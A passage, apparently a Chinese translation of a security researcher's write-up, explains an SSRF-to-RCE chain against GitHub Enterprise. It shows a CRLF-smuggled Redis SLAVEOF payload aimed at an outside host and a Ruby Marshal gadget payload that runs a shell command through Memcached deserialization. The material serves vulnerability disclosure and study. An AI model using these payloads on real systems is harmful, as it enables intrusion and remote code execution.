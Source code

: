 ```
$ nc -vvlp 12345
...

GET /
i_am_payload
Foo: HTTP/1.1
Host: 127.0.0.1:12345
Accept-Encoding: identity
```

这是一小步，但对整个漏洞利用链来说是一个巨大的飞跃。现在，我可以在这个SSRF执行链中走私其他协议。例如，如果我们想玩Redis，可以尝试以下有效载荷：

```
http://0:8000/composer/send_email?
to=orange@nogg&
url=http://127.0.0.1:6379/%0ASLAVEOF%20orange.tw%206379%0A
```

注意：SLAVEOF是一个非常棒的命令，可以让你产生出站流量。当面对一些盲SSRF时，这是一个有用的技巧！

看起来很棒！然而，协议走私也有一些限制：

- 需要握手的协议如SSH、MySQL和SSL会失败
- 由于Python2的限制，我们在第二个SSRF中使用的有效载荷只允许0x00到0x8F的字节

顺便说一下，在HTTP方案中走私协议的方法不止一种。在我的幻灯片中，我还展示了如何利用Linux Glibc的特性通过SSL SNI走私协议，以及一个绕过Python CVE-2016-5699的案例研究！

如果你感兴趣，可以查看一下 :)

### 第四个漏洞 - 不安全的反序列化

现在，我们有了在HTTP协议中走私其他协议的能力，但下一个问题是，我选择走私什么协议？

我花了很多时间研究如果我能控制Redis或Memcached，可以触发什么漏洞。

在审查源代码时，我很好奇为什么GitHub可以在Memcached中存储Ruby对象。经过一些挖掘，我发现GitHub Enterprise使用Ruby Gem memcached来处理缓存，并且缓存是用Marshal包装的。

这对我来说是个好消息。每个人都知道Marshal是危险的。

（如果你不知道，我推荐你阅读@frohoff和@gebl在AppSec California 2015上的幻灯片《Marshalling Pickles》）

所以，我们的目标很明确。

我们使用SSRF执行链在Memcached中存储恶意的Ruby对象。下次GitHub获取缓存时，Ruby Gem memcached会自动反序列化数据。结果是... BOOM！远程代码执行！XD

Rails控制台中的不安全Marshal：

```ruby
irb(main):001:0> GitHub.cache.class.superclass
=> Memcached::Rails

irb(main):002:0> GitHub.cache.set("nogg", "hihihi")
=> true

irb(main):003:0> GitHub.cache.get("nogg")
=> "hihihi"

irb(main):004:0> GitHub.cache.get("nogg", :raw=>true)
=> "\x04\bI\"\vhihihi\x06:\x06ET"

irb(main):005:0> code = "`id`"
=> "`id`"

irb(main):006:0> payload = "\x04\x08" + "o"+":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy"+"\x07" + ":\x0E@instance" + "o"+":\x08ERB"+"\x07" + ":\x09@src" + Marshal.dump(code)[2..-1] + ":\x0c@lineno"+ "i\x00" + ":\x0C@method"+":\x0Bresult"
=> "\u0004\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\a:\u000E@instanceo:\bERB\a:\t@srcI\"\t`id`\u0006:\u0006ET:\f@linenoi\u0000:\f@method:\vresult"
```